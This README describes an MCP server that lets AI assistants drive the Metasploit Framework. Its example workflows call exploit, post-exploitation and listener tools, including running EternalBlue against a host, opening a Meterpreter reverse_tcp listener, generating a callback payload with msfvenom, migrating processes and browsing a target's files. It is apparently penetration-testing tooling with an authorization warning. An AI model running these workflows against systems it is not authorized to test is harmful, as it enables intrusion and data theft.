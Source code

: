 # Metasploit MCP Server

A Model Context Protocol (MCP) server for Metasploit Framework integration.

## Description

This MCP server provides a bridge between large language models like Claude and the Metasploit Framework penetration testing platform. It allows AI assistants to dynamically access and control Metasploit functionality through standardized tools, enabling a natural language interface to complex security testing workflows.

## Features

### Exploitation Workflow

- **list_exploits**: Search and list available Metasploit exploit modules
- **list_payloads**: Search and list available Metasploit payload modules
- **generate_payload_via_msfvenom**: Generate payload files using msfvenom
- **run_exploit**: Configure and execute an exploit against a target
- **list_active_sessions**: Show current Metasploit sessions
- **send_session_command**: Run a command in an active session

### Post-Exploitation Tools

- **get_system_info**: Retrieve system information from a Meterpreter session
- **get_user_id**: Get the current user context of a session
- **list_processes**: List running processes on the target system
- **migrate_process**: Move a Meterpreter session to another process
- **filesystem_list**: List files in a directory on the target system

### Listener Management

- **list_listeners**: Show all active handlers and background jobs
- **start_listener**: Create a new multi/handler to receive connections
- **stop_job**: Terminate any running job or handler

### Auxiliary Module Support

- **run_auxiliary_module**: Run any Metasploit auxiliary module with options

## Prerequisites

- Metasploit Framework installed and msfrpcd running
- Python 3.10 or higher
- Required Python packages (see requirements.txt)

## Installation

1. Clone this repository
2. Install dependencies:
   ```
   pip install -r requirements.txt
   ```
3. Configure environment variables (optional):
   ```
   MSF_PASSWORD=yourpassword
   MSF_SERVER=127.0.0.1
   MSF_PORT=55553
   MSF_SSL=false
   ```

## Usage

Start the Metasploit RPC service:

```bash
msfrpcd -P yourpassword -S -a 127.0.0.1 -p 55553
```

For Claude Desktop integration, configure `claude_desktop_config.json`:

```json
{
    "mcpServers": {
        "metasploit": {
            "command": "uv",
            "args": [
                "--directory",
                "C:\\path\\to\\MetasploitMCP",
                "run",
                "MetasploitMCP.py"
            ],
            "env": {
                "MSF_PASSWORD": "yourpassword"
            }
        }
    }
}
```

## Security Considerations

⚠️ **IMPORTANT SECURITY WARNING**:

This tool provides direct access to Metasploit Framework capabilities, which include powerful exploitation features. Use responsibly and only in environments where you have explicit permission to perform security testing.

- Always validate and review all commands before execution
- Only run in segregated test environments or with proper authorization
- Be aware that post-exploitation commands can result in significant system modifications

## Example Workflows

### Basic Exploitation

1. List available exploits: `list_exploits("ms17_010")`
2. Select and run an exploit: `run_exploit("exploit/windows/smb/ms17_010_eternalblue", "192.168.1.100", 445)`
3. List sessions: `list_active_sessions()`
4. Run commands: `send_session_command(1, "whoami")`

### Post-Exploitation

1. Get system information: `get_system_info(1)`
2. List running processes: `list_processes(1)`
3. Migrate to a more stable process: `migrate_process(1, 1234)`
4. Browse the filesystem: `filesystem_list(1, "C:\\Users")`

### Handler Management

1. Start a listener: `start_listener("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444)`
2. List active handlers: `list_listeners()`
3. Generate a payload: `generate_payload_via_msfvenom("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444, "exe")`
4. Stop a handler: `stop_job(1)`

## License

Apache 2.0
